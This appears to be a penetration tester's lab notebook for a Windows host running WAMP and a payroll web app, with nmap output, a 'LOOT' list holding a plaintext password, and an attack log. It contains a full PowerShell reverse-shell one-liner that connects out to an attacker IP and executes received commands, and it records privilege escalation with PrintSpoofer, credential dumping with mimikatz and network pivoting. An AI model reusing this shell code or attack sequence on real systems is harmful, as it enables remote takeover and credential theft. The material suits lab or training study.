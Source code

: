 ```yaml
---
192_OCTET_3:
---
```

# LOOT
- DefaultPassword:7k8XHk3dMtmpnC7
- service 'wampapache64' with username : .\Mary.Williams
- service 'wampmariadb64' with username : .\Mary.Williams
- service 'wampmysqld64' with username : .\Mary.Williams
# NMAP
```
Nmap scan report for 192.168.215.141
Host is up (0.023s latency).
Not shown: 65515 closed tcp ports (reset)
PORT      STATE SERVICE         VERSION
22/tcp    open  ssh             OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 e0:3a:63:4a:07:83:4d:0b:6f:4e:8a:4d:79:3d:6e:4c (RSA)
|   256 3f:16:ca:33:25:fd:a2:e6:bb:f6:b0:04:32:21:21:0b (ECDSA)
|_  256 fe:b0:7a:14:bf:77:84:9a:b3:26:59:8d:ff:7e:92:84 (ED25519)
80/tcp    open  http            Apache httpd 2.4.51 ((Win64) PHP/7.4.26)
|_http-generator: Nicepage 4.8.2, nicepage.com
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.51 (Win64) PHP/7.4.26
|_http-title: Home
81/tcp    open  http            Apache httpd 2.4.51 ((Win64) PHP/7.4.26)
|_http-server-header: Apache/2.4.51 (Win64) PHP/7.4.26
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Attendance and Payroll System
135/tcp   open  msrpc           Microsoft Windows RPC
139/tcp   open  netbios-ssn     Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql           MySQL (unauthorized)
3307/tcp  open  opsession-prxy?
5040/tcp  open  unknown
5985/tcp  open  http            Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  open  tcpwrapped
47001/tcp open  http            Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc           Microsoft Windows RPC
49665/tcp open  msrpc           Microsoft Windows RPC
49666/tcp open  msrpc           Microsoft Windows RPC
49667/tcp open  msrpc           Microsoft Windows RPC
49668/tcp open  msrpc           Microsoft Windows RPC
49669/tcp open  msrpc           Microsoft Windows RPC
49670/tcp open  msrpc           Microsoft Windows RPC
55814/tcp open  msrpc           Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=2/17%OT=22%CT=1%CU=30833%PV=Y%DS=4%DC=T%G=Y%TM=67B3
OS:3C10%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10B%TI=I%CI=I%TS=U)OPS(O
OS:1=M578NW8NNS%O2=M578NW8NNS%O3=M578NW8%O4=M578NW8NNS%O5=M578NW8NNS%O6=M57
OS:8NNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=
OS:80%W=FFFF%O=M578NW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2
OS:(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80
OS:%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q
OS:=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G
OS:)IE(R=N)

Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -2s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-02-17T13:38:28
|_  start_date: N/A

TRACEROUTE (using port 587/tcp)
HOP RTT      ADDRESS
1   23.54 ms 192.168.45.1
2   24.02 ms 192.168.45.254
3   24.06 ms 192.168.251.1
4   24.12 ms 192.168.215.141
```
# Enumeration
- User is eric.wallows
- User has SeImpersonate
	```
	powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.45.173",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
	```
- Installed applications: c:\wamp64(Authenticated Users [WriteData/CreateFiles])
- Lots of information in C:\wamp64\changelog.txt
- There is mysql running on 3306 but our host cant access it
- Info in wamp64/mariadb_mysql.txt regarding connecting sql
- Mary has NTUSER.DAT file 
# Log
- Got winrm access with provided credentials
- Fix VirtualHost creation issue (CVE-2019-11517)
- Got access to phpmyadmin page via internal webpage and ligolo (http://240.0.0.1/phpmyadmin/)
	- Got access to phpmyadmin as root (no password) by selecting mariadb from dropdown menu
- Got access as nt authority using print spoofer and powershell b64 encoded shell
- Got hash for mary and celia via mimikatz
- lsadump::secrets returned alot of creds
# COAs
- ~~setup proxy with logolo and access mysql server~~
- ~~Try to connect to phpmyadmin locally~~
- Use phpmyadmin access to trigger reverse shell uploaded via winrm
- Run sharphound
- run mimikatz, another user appears to be signed in already
